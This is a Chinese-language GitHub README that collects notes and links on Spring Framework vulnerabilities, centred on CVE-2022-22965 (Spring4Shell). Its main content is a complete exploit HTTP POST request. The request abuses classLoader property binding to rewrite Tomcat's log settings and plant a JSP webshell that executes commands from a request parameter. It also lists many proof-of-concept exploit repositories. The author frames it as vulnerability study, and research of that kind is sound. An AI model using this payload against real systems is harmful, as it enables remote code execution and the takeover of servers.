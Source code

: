 # HackSpring-永恒之春

本项目用来致敬全宇宙最无敌Spring框架！同时也记录自己在学习Spring漏洞过程中遇到的一些内容。本项目会持续更新，本项目创建于2022年3月30日，最近的一次更新时间为2022年4月1日。作者：[0e0w](https://github.com/0e0w)

- [01-Spring基础知识]()
- [02-Spring框架识别]()
- [03-Spring上层建筑]()
- [04-Spring漏洞汇总]()
- [05-Spring检测利用]()
- [06-Spring漏洞修复]()
- [07-Spring分析文章]()
- [08-Spring靶场环境]()

## 01-Spring基础知识

## 02-Spring框架识别

- 待更新

## 03-Spring上层建筑

**Spring + ？ = rce ！**

## 04-Spring漏洞汇总

- CVE-2022-22965

## 05-Spring检测利用

如何判断一个网站是否存在Spring漏洞？如何查找内网中存在Sprin漏洞？

一、Payload

```
POST / HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 761

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22S%22.equals(request.getParameter(%22Tomcat%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=Shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

二、源码检测

三、漏洞验证

- 测试时发现webshell只能写入一次！第二次失败！

四、漏洞扫描

五、其他工具

- https://github.com/TheGejr/SpringShell
- https://github.com/BobTheShoplifter/Spring4Shell-POC
- https://github.com/kh4sh3i/Spring-CVE
- https://github.com/GuayoyoCyber/CVE-2022-22965
- https://github.com/viniciuspereiras/CVE-2022-22965-poc
- https://github.com/reznok/Spring4Shell-POC
- https://github.com/jschauma/check-springshell
- https://github.com/colincowie/Safer_PoC_CVE-2022-22965
- https://github.com/alt3kx/CVE-2022-22965_PoC
- https://github.com/exploitbin/CVE-2022-22963-Spring-Core-RCE
- https://github.com/light-Life/CVE-2022-22965-GUItools
- https://github.com/Mr-xn/spring-core-rce
- https://github.com/Kirill89/CVE-2022-22965-PoC
- https://github.com/Axx8/SpringFramework_CVE-2022-22965_RCE
- https://github.com/likewhite/CVE-2022-22965
- https://github.com/mebibite/springhound
- https://github.com/irgoncalves/f5-waf-enforce-sig-Spring4Shell

## 06-Spring漏洞修复

## 07-Spring分析文章

- https://www.cyberkendra.com/2022/03/springshell-rce-0-day-vulnerability.html
- https://bugalert.org/content/notices/2022-03-29-spring.html
- https://websecured.io/blog/624411cf775ad17d72274d16/spring4shell-poc
- https://www.springcloud.io/post/2022-03/spring-0day-vulnerability
- https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement

## 08-Spring靶场环境

- https://github.com/jbaines-r7/spring4shell_vulnapp
- https://github.com/Kirill89/CVE-2022-22965-PoC
- https://github.com/DDuarte/springshell-rce-poc
- https://github.com/XuCcc/VulEnv

[![Stargazers over time](https://starchart.cc//HackJava/Spring.svg)](https://starchart.cc/HackJava/Spring)

